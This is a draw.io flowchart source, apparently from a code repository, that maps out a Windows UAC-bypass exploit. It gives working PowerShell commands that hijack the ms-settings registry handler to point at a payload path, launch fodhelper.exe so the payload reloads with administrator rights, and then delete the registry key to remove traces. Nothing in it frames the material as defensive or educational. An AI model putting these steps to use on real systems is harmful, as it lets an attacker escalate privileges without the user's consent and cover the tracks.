

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1050" dy="562" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="JgZY7hPbkJw66fKIapff-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-2" target="JgZY7hPbkJw66fKIapff-4">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-2" value="&lt;font style=&quot;font-size: 9px;&quot;&gt;New-Item 'HKCU:\Software\Classes\ms-settings\Shell\Open\command' -Force;&lt;/font&gt;&lt;div&gt;&lt;font style=&quot;font-size: 9px;&quot;&gt;New-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\Shell\Open\command' -Name 'DelegateExecute' -Value '' -Force;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 9px;&quot;&gt;Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\Shell\Open\command' -Name '(default)' -Value 'EXPLOIT_PATH' -Force;&lt;/font&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;align=left;" vertex="1" parent="1">
      <mxGeometry x="269" y="200" width="540" height="60" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-8" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-3" target="JgZY7hPbkJw66fKIapff-7">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-3" value="Exploit" style="rhombus;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="179" y="15" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-4" target="JgZY7hPbkJw66fKIapff-5">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-4" value="Sleep 60 seconds" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="269" y="310" width="120" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-5" target="JgZY7hPbkJw66fKIapff-20">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-5" target="JgZY7hPbkJw66fKIapff-3">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="533" y="370" />
          <mxPoint x="50" y="370" />
          <mxPoint x="50" y="55" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-5" value="Launch&amp;nbsp;C:\Windows\System32\fodhelper.exe" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="460" y="310" width="290" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-24" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-6" target="JgZY7hPbkJw66fKIapff-21">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-6" value="&lt;font size=&quot;1&quot;&gt;Remove-Item 'HKCU:\Software\Classes\ms-settings' -Recurse -Force&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;align=left;" vertex="1" parent="1">
      <mxGeometry x="445" y="450" width="320" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-7" target="JgZY7hPbkJw66fKIapff-10">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-7" target="JgZY7hPbkJw66fKIapff-11">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-7" value="Software\Classes\ms-settings\Shell\Open\command" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="349" y="40" width="300" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-9" value="Check if registry key already exist" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="349" y="28" width="191" height="12" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-27" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-10" target="JgZY7hPbkJw66fKIapff-26">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-10" value="Exist" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="354" y="120" width="70" height="12" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-11" target="JgZY7hPbkJw66fKIapff-2">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-11" value="Dont exist" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="579" y="120" width="70" height="12" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-23" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-20" target="JgZY7hPbkJw66fKIapff-6">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-20" value="Sleep 10 seconds" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="545" y="380" width="120" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-21" value="Exit exploit" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="545" y="510" width="120" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-29" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="JgZY7hPbkJw66fKIapff-26" target="JgZY7hPbkJw66fKIapff-28">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-26" value="Start new cmd" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="80" y="140" width="120" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-28" value="Exit Exploit" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="80" y="215" width="120" height="30" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-30" value="Reload exploit with admin rights" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="52" y="356" width="180" height="12" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-31" value="Create registry key" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="269" y="188" width="111" height="12" as="geometry" />
    </mxCell>
    <mxCell id="JgZY7hPbkJw66fKIapff-32" value="Delete registry key" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#ffe6cc;strokeColor=#d79b00;" vertex="1" parent="1">
      <mxGeometry x="445" y="438" width="105" height="12" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>